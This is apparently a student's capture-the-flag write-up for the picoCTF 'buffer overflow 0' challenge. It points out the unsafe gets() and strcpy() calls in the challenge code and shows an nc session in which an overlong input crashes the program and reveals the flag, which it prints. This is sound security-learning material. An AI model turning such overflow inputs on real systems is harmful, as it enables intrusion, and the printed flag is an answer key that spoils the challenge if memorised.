 # buffer overflow 0
**FLAG** - picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
## Approach
To start off I downloaded the vuln.c file from  picoctf, and went through the program till I noticed this section of the code
![image](https://github.com/user-attachments/assets/f79aeebb-49ba-4147-9e3a-48ee83f5ed6f)
the `gets()` function is infamous for being a massive vulnerability due to its potential for allowing overflows, this coupled with the fact that the `vuln` function used
the strcpy function(also known for causing potential vulnerability entry points)


![image](https://github.com/user-attachments/assets/c65f2724-dbd9-425a-a900-a515f4c0d48c)


knowing these facts, and also that the challenge was named buffer overflow, I assumed that entering a string longer than 100 characters would overflow , so I just entered an
arbitarily long string

```bash
root@DESKTOP-MPJ395R:/mnt/c/Users/Aditya/Downloads# nc saturn.picoctf.net 49747
Input: zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
## Concepts Learnt
- Buffer Overflow
